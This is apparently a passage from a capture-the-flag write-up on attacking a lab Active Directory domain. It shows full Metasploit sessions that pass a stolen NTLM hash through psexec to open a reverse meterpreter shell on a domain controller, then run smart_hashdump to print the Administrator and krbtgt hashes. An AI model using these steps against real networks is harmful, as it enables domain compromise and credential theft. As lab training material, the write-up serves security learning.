 ```
	SYSVOL                                            	READ, WRITE	Logon server share
```

Domain user `umar` can read and write all the shared folder. I found 2 tools that I can use for getting the shell, `smbexec` and `psexec`. I used `psexec` because Metasploit has a module of it. So, I can easily spawn meterpreter from it.

```
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS 192.168.240.30
RHOSTS => 192.168.240.30
msf6 exploit(windows/smb/psexec) > set SERVICE_NAME test2
SERVICE_NAME => test2
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBDomain MYCOMS
SMBDomain => MYCOMS
msf6 exploit(windows/smb/psexec) > set SMBUser umar
SMBUser => umar
msf6 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:690202604d171a54bc7d7d06aa90df3f
SMBPass => aad3b435b51404eeaad3b435b51404ee:690202604d171a54bc7d7d06aa90df3f
msf6 exploit(windows/smb/psexec) > set LHOST 10.0.200.2
LHOST => 10.0.200.2
msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.0.200.2:4444 
[*] 192.168.240.30:445 - Connecting to the server...
[*] 192.168.240.30:445 - Authenticating to 192.168.240.30:445|MYCOMS as user 'umar'...
[*] Sending stage (175174 bytes) to 192.168.240.80
[*] 192.168.240.30:445 - Selecting PowerShell target
[*] 192.168.240.30:445 - Executing the payload...
[+] 192.168.240.30:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 192.168.240.30
[*] Meterpreter session 1 opened (10.0.200.2:4444 -> 192.168.240.30:50027) at 2020-12-02 22:11:16 +0800

meterpreter > 
```

`meterpereter` is running. Like previous challenge, I used `smart_hashdump` to dump all NTLM hashes.

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > use post/windows/gather/smart_hashdump
msf6 post(windows/gather/smart_hashdump) > set session 1
session => 1
msf6 post(windows/gather/smart_hashdump) > run

[*] Running module against PROD-AD3211
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /home/ahmad/.msf4/loot/20201202221603_default_192.168.240.30_windows.hashes_731527.txt
[+] 	This host is a Domain Controller!
[*] Dumping password hashes...
[-] Failed to dump hashes as SYSTEM, trying to migrate to another process
[*] Migrating to process owned by SYSTEM
[*] Migrating to wininit.exe
[+] Successfully migrated to wininit.exe
[+] 	Administrator:500:aad3b435b51404eeaad3b435b51404ee:85206c6cdb1b01032a0086df2b569dbc
[+] 	krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a7983a9531b6654f34829fdc3a7ca08b
[+] 	abu:1104:aad3b435b51404eeaad3b435b51404ee:7670e8dd99bbdc594089db1c33844092
```
